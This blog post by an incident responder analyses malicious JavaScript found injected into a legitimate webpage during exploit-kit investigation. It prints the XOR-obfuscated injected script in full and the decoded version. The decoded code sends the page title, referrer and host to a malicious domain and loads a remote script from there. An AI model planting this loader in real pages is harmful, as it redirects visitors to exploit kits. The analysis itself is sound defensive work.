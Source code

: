 ```yaml
---
title: "JavaScript: Deobfuscate With Just A Print Function"
categories: blog
tags: [javascript]
date: 2015-10-18T15:25:30-04:00
---
```


As an incident responder who deals with a lot of exploit kit related events, packet captures are invaluable. If you're in the same boat, I hope you have pcaps for what triggered the alert, as well as some time on your hands to follow the trail back to the original source and start breaking down what occurred. It's not uncommon for there to be multiple redirects to the exploit kit landing page, and once the source of the activity is located, you'll probably be greeted with some nice obfuscated code.

It's no surpise that there are multiple ways to redirect users who visit a site, but a common way would be through JavaScript. Below is a sample of the latest malicious JavaScript I've come across that was injected into a legitimate webpage.


### The Obfuscated Code
---

The following is what was noticed within the body of a webpage that was visited, right before the closing "</head>" tag. Typically, malicious code is not formatted in a neat manner, and this case wasn't any different. To format the output in a more readable format, a great online resource is [jsbeautifier](http://jsbeautifier.org/).

```javascript
var a="'02'02'02'02'1Aqapkrv'1G'2C'02'02'02'02'02'02'02'02dwlavkml'02qvpkleEgl'0:ngl'0;'5@'2C'02'02'02'02'02'02'02'02'02'02'02'02tcp'02vgzv'02'1F'02'00'00'1@'2C'02'02'02'02'02'02'02'02'02'02'02'02tcp'02ajcpqgv'02'1F'02'00c`afgdejkhinolmrspqvwtuz{x23016745:;'00'1@'2C'02'02'02'02'02'02'02'02'02'02'02'02dmp'0:'02tcp'02k'1F2'1@'02k'02'1A'02ngl'1@'02k))'02'0;'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02vgzv'02)'1F'02ajcpqgv,ajcpCv'0:Ocvj,dnmmp'0:Ocvj,pclfmo'0:'0;'02('02ajcpqgv,nglevj'0;'0;'1@'2C'02'02'02'02'02'02'02'02'02'02'02'02pgvwpl'02vgzv'1@'2C'02'02'02'02'02'02'02'02'5F'2C'02'02'02'02'02'02'02'02qgvVkogmwv'0:32'0;'1@'2C'02'02'02'02'02'02'02'02tcp'02fgdcwnv]ig{umpf'02'1F'02glamfgWPKAmormlglv'0:fmawoglv,vkvng'0;'1@'2C'02'02'02'02'02'02'02'02tcp'02qg]pgdgppgp'02'1F'02glamfgWPKAmormlglv'0:fmawoglv,pgdgppgp'0;'1@'2C'02'02'02'02'02'02'02'02tcp'02jmqv'02'1F'02glamfgWPKAmormlglv'0:uklfmu,nmacvkml,jmqv'0;'1@'2C'02'02'02'02'02'02'02'02tcp'02`cqg'02'1F'02'00k,knnwoklcvkmlgq,amo-hqlkvaj'00'1@'2C'02'02'02'02'02'02'02'02tcp'02wwkf'02'1F'02qvpkleEgl'0:7'0;'1@'2C'02'02'02'02'02'02'02'02tcp'02l]wpn'02'1F'02'00jvvr'1C--'00'02)'02wwkf'02)'02'00,'00'02)'02`cqg'02)'02'00'1Dfgdcwnv]ig{umpf'1F'00'02)'02fgdcwnv]ig{umpf'02)'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'00'04qg]pgdgppgp'1F'00'02)'02qg]pgdgppgp'02)'02'00'04qmwpag'1F'00'02)'02jmqv'1@'2C'02'02'02'02'02'02'02'02kd'02'0:fgdcwnv]ig{umpf'02'03'1F'1F'02lwnn'02'04'04'02fgdcwnv]ig{umpf'02'03'1F'1F'02'05'05'02'04'04'02qg]pgdgppgp'02'03'1F'1F'02lwnn'02'04'04'02qg]pgdgppgp'02'03'1F'1F'02'05'05'0;'5@'2C'02'02'02'02'02'02'02'02'02'02'02'02fmawoglv,upkvg'0:'05'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'02qpa'1F'00'05'02)'02l]wpn'02)'02'05'00'1G'05'02)'02'05'1A'05'02)'02'05-qapkrv'1G'05'0;'1@'2C'02'02'02'02'02'02'02'02'5F'2C'02'02'02'02'1A-qapkrv'1G";

b="";
c="";
var clen;
clen=a.length;
for(i=0;i<clen;i++)
	{
	b+=String.fromCharCode(a.charCodeAt(i)^2)
	}
c=unescape(b);
document.write(c);
```

### Analysis Part 1
---

So, clearly, this was pretty easy to pick out from the returned webpage when viewing the http stream.

Lets review some of the methods that the malicious actor is using to hide the original code.

1. ```charCodeAt()```:
   - This method will return the unicode character of a letter based on the string that is  provided and the number that is passed to the argument.
	
2. ```Bitwise XOR```:
   - The "^" operator in JavaScript is for bitwise XORing. In an example of "a XOR b", if a == b, then the result is 0, else the result is 1.

3. ```fromCharCode()```:
   - This method will convert a unicode number into its ascii character equivalent.

4. ```unescape()```:
   - This method is used for the encoding and decoding of strings.
	

### The Greatness of Printing
---

So we have the malicious JavaScript and did some research to get an understanding of how the original code is being hidden. If we don't have the time to put together a script to reverse the encoded text, perhaps we can get away with a quicker work around.

The great thing about this particular example is that we can see all of the code necessary to reverse the output was provided. In some cases, it's not this simple and code might be loaded in from things like other scripts or html elements within the page.

Lets take a look at the last line of code,```"document.write(c)"```. This method will write out the contents of the variable "c" back to the webpage, which is the decoded content. Instead of writing this back to the webpage, lets see what we can do to reveal this content.

A great tool to help with this task is [SpiderMonkey](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/SpiderMonkey) from Mozilla. Follow the [build instructions](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/SpiderMonkey/Build_Documentation) for your operating system before continuing.

Now that SpiderMonkey is installed, we can execute JavaScript from a terminal window for ease of use.

1. Copy the JavaScript from above and place it into a temporary file with a ".js" extension. For this example, I've called it mal.js

2. Before saving the file, edit the last line of code and switch it from "```document.write(c);```" to "```print(c);```". Save the file.

3. From the terminal, type "js mal.js".

You should now see the decoded text. I've added brackets around the domain since it is malicious, so please be careful.

```javascript
function stringGen(len){
	var text = "";
    var charset = "abcdefghijklmnopqrstuvwxyz0123456789";
    for( var i=0; i < len; i++ )
    	text += charset.charAt(Math.floor(Math.random() * charset.length));
        return text;
        }

setTimeout(10);
var default_keyword = encodeURIComponent(document.title);
var se_referrer = encodeURIComponent(document.referrer);
var host = encodeURIComponent(window.location.host);
var base = "i[.]illuminationes[.]com/jsnitch";
var uuid = stringGen(5);
var n_url = "http://" + uuid + "." + base + "?default_keyword=" + default_keyword +
                "&se_referrer=" + se_referrer + "&source=" + host;
if (default_keyword !== null && default_keyword !== '' && se_referrer !== null && se_referrer !== ''){
    	document.write('<script type="text/JavaScript" src="' + n_url + '">' + '<' + '/script>');
        }
```

### Analysis Part 2
---

Now that we can see the code, the process starts over again with analyzing the sample to get an understanding of what is occurring.

1. ```stringGen(len)```:
	- Randomly generates a 5 character string. The result is assigned to the "uuid" variable.
	
2. The following are standard JavaScript methods that access DOM elements.
  - ```document.title``` - current page title.
  - ```document.referer``` - the referrer webpage that lead to the current document.
  - ```window.location.host``` - the current domain
	
3. ```var base```:
  - The base url which will be used in structuring the full url request.
	
4. ```var n_url```:
  - This variable holds the formatting of the url where additional JavaScript will be retreived. Example: "http://abcde.baseurl./directory?default_keyword=currentwebpagetitle&se_referrer=documentreferrer&source=currentdomain"
	
5. The last couple lines is an "if" condition which evaluated whether or not the two variables exist (default_keyword and se_referrer).
  - If they exist, then an addidional \<script> tag is added with the source being the completed url assigned to variable "n_url".
  - If they do not, then the additonal JavaScript is not downloaded.
	
So if you you went to the website directly (eg: without clicking a link from a google search), then the additonal JavaScript does not get executed.
	
### Summary
---

Alas, we've come this far only to hit a roadblock. Due to the random generation of 5 characters for the sub domain, DNS requests fail because the domains have not been stood up. It's my guess that the adversary hasn't been able to register all variations, which will likely lead to a lower success rate for exploitation. If you look up the main domain within [VirusTotal](https://www.virustotal.com/en/domain/i.illuminationes.com/information/), you will see that there are detections for a good amount of subdomains that match the naming convention we've uncovered. I've even tried reaching a couple of these without success. Even though we couldn't get this to dance the way we wanted, it was a good exercise in reviewing JavaScript and obfuscation techniques.